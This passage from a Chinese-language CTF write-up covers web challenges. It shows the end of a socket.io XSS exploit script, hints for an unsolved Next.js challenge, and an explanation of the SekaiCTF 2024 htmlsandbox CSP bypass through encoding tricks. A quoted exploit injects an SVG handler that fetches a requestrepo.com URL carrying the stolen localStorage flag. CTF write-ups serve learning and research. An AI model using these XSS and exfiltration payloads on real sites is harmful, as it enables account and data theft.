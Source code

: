 ``` py
(window.a.srcdoc=window.a.srcdoc.replace('%s','%s'))
(window.secret.document.body.appendChild(window.a))
""".strip().replace('\n', ',') % (second_sid, first_sid)

        sio.emit('message', '\\"+'+js_payload+');//')

        xss_payload = """
<a id=&quot;___eio&quot;></a>
<a id=&quot;___eio&quot;></a>
<script src=&quot;%s&quot;></script>
""" % jsonp_url
        chat_message = '<iframe id="xss" srcdoc="%s"></iframe>' % xss_payload.strip()
        assert len(chat_message) < 400, 'chat message too long, time to write better payload'
        sio.emit('message', chat_message)

sio.connect(base_url)
sio.wait()
```

### web/repayment-pal - 0 solve

Author: strellic

跟 Next.js 有關的題目，賽中沒有人解開，賽後也沒有公佈解法。

底下是公佈過的提示：

1. +24 hour hint drop: hm, why is dev mode enabled?
2. +36 hour hint drop: try to find a way to get html injection!
3. Post-CTF hint drop: An earlier version of the challenge had an extra check in the middleware, requiring all API requests to have the header Sec-Fetch-Dest: empty


## sekaiCTF 2024

### htmlsandbox (4 solves)

Author: arxenix

題目連結：https://github.com/project-sekai-ctf/sekaictf-2024/tree/main/web/htmlsandbox

這題可以讓你上傳 HTML，但是把能擋的全部都擋掉了，並且會檢查 head 裡面有沒有：`<meta http-equiv="Content-Security-Policy" content="default-src 'none'">`，來確保不能執行 JavaScript 程式碼。

而解法是檢查的時候是把 HTML 變成 `data:text/html` 來檢查，但實際造訪的時候就是一般的網頁，而這兩者的 parsing 規則不一樣，當檔案很大的時候，前者會全部一次 parsing，但後者會一個 chunk 一個 chunk 做，而且每個 chunk 的 encoding 可以不同。

細節可以看作者的 writeup：[SekaiCTF'24 htmlsandbox - Author Writeup](https://blog.ankursundara.com/htmlsandbox-writeup/) 或是這篇 [0xalessandro 的 writeup](https://0xalessandro.github.io/posts/sekai/)，他最後的 exploit 長這樣：

```py
import requests

#0xAlessandro was here
c1 = b'''<html><head>
    <!-- \x1b$@ aa -->''' + b'''
<meta http-equiv="Content-Security-Policy" content="default-src 'none'">
\x1b(B <!-- test -->
''' + b"\x1b(B<!-- " + b"A"*64000 + b"-->"+ b"<!--"+b"A"*100+b"-->"

c2 = b'''
    <meta charset="utf-8">
    </head>
    <body>
    <svg><animate onbegin="fetch(`https://s9cs3dwb.requestrepo.com?c=${localStorage.getItem('flag')}`)" attributeName="x" dur="1s">
```